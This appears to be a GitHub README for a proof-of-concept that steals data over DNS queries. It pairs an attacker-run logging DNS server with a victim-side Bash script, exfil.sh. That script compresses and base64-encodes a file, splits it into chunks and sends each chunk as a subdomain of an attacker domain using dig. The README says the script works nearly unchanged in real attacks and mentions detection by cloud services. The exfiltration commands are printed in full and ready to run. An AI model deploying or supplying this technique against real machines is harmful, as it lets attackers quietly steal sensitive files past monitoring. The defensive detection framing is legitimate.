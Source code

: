 # Introduction

This code was a PoC code to demonstrate how data (textual or binary) can be exfiltrated from a victim over DNS queries. This attack relies on the fact that DNS queries are generally not blocked or monitored for exfiltration.

The threat detection engines of the major cloud providers MUST have detections for exfiltration over DNS. I have validated this in the AWS GuardDuty. Azure, other clouds and on-premises Threat Detection services needs to be validated. Please comment onthe products that have this and I will merge them to this README.

# Setup
## Attacker side
### Theory of the Attacker side [TL;DR]
The attacker needs to firstly run a "customised" DNS server that logs all DNS resolution requests that come to it. 

The attacker registers a domain name  - e.g. example[.]com for DNS queries to come to the server across the Internet and run this DNS server. Once the attacker has a foothold on the victim computer, he sends DNS queries to this DNS server with the exfiltrated data as the subdomain name needing DNS resolution.

### Running the DNS server
The attacker side uses the Twisted module of Python to instantiate a DNS server. For the PoC, the server runs on the localhost on port 10053 (both TCP and UDP).

1. Open a Terminal and navigate to the `attacker` directory.
2. For the first time only, run `pip install -r requirements.txt`. The dependencies will get installed from the requirements.txt file.
3. Run the DNS server - `python3 dns-server.py`
4. **Do not run in background** as the server is configured to log to standard output. However, the POC is configured to extract the `servername` part of the DNS query and reconstruct it. This is the exfiltrated data chunk.

## Victim side
### Theory of the Victim side [TL;DR]
The victim side is the machine from which the attacker wants to exfiltrate sensitive data over DNS queries. This data can be textual or binary and therefore the data is encoded to base64 before creating the DNS queries.

Also as per the RFC-1034, DNS query can by 63 bytes at most including the FQDN (Fully Qualified Domain name). We have taken arbitrarily 35 bytes in our PoC but this number can be altered to fit each query to be 63 bytes.

For the purpose of the PoC, we will create a file that creates a file with "FooBar!" as the text ten thousand times. This is meant to act as the sensitive that will be exfiltrated. In an actual attack, the file will be replaced with the file that contains the sensitive data. This file is created using the Python file `create-file-to-exfil.py`. 

The actual exfiltration is done using the `exfil.sh`

### Running the Victim side code - The data exfiltration
The victim side is demonstrated in Bash under the assumption that the machines containing sensitive data is running some form of Linux/Unix server. Using Python of something means that the attacker might need to 'code' this on the server. On the contrary, Bash is -  *essentially, a few commands thrown in together*.

1. Open a terminal and navigate to the `victim` directory
2. Run the exfil script - `bash exfil.sh`

> In an odd case, some of the utilities may not exist and you can either install the tools or replace with the ones that exist on the system.

## Dissection of the exfil.sh file

```
python3 create-file-to-exfil.py
tar -czf pass.tar.gz an-ip-file.txt
base64 -i pass.tar.gz > encoded
split -b 35 encoded xaa
for i in $(ls xaa*);do DATA=$(base64 -i $i | tr -d "="); dig -p 10053 @localhost $DATA.example.org +short
```

1. The first command creates the file that will be exfiltrated.
2. The file is compressed to save the amount of data that needs to be sent
3. After the compression, even textual data needs to be treated as binary data. The base64 operation converts this binary data to its UTF-8 representation. The encoded  file is sent to a file called `encoded`
4. The file is split into chunks of 35 bytes each stored in a file that has `xaaa` as a prefix. The command line creates as many files as needed for the encoded file to be chunked in to 35 bytes.
5. We iterate through each file and exfiltrate its contents using the `dig` (DNS lookup) command. We will elaborate this chunk as follows

    ```
    for i in $(ls xaa*);
    do 
        DATA=$(base64 -i $i | tr -d "="); 
        dig -p 10053 @localhost $DATA.example.org +short
    done
    ```
    i. The directory where the chunked data lies is listed for the file prefix.

    ii. For each of the file that is returned in the previous command, we base64 encode the chunk and remove the trailing '=' signs that cannot be sent over the DNS queries.
    > We strictly do not need to encode each file but the last file only as that is the only one that contains the padding. However, it is easy to encode each chunk and decode it as opposed to adding logic to detect the last file in the listing.
    
    iii. Since the default output of the base64 operation is to output to standard output, we capture this to a variable called DATA.

    iv. Finally, we create the DNS queries using the `dig` utility. Since we want the queries to go to a specific DNS server on a particular port, we need to add the `-p` argument for post and the `@<hostname>` argument for the DNS server that the request must go to. The *FQDN* part contains the DATA chunk along with the attacker domain.

    > In the real-world the command will not be so complicated and just a `dig $DATA.example.org` will do the trick. The chunk will be sent over.

# Reconstruction of the file at the attacker side
Since we are doing base64 encoding twice - once for the entire file and once for each chunk. When reconstructing the file, each chunk must be base64 decoded. This is achieved in the `dns-server.py` file, where the comment `#Try base64 decoding it till successful` is added.

The output of the successful decoding of the chunk is then appended to the resonstruction file.

Since we are looping at the client side, we will continue to add the base64 decoded chunk to rebuild the original encoded file.

The `reconstruct-the-exfil-file.sh` file contains the command to base64 decode the reconstructed file and then un-gunzip it to get the original file back.

Compare the 2 files by running the command `diff ../victim/an-ip-file.txt an-ip-file.txt` from a terminal window in the `attacker` directory. This should result in a null output.

# Improvements
The solution is a PoC and therefore, we have not added intelligence to detect two separate exfiltration attempts which must be reconstructed as 2 files in the server side. In the current implemnentation, if two separate file are exfiltrated the reconstruction file will be a single file and thereefore reconstruction will fail.

Therefore, for the PoC, you must delete the reconstruction file for each separate demo.

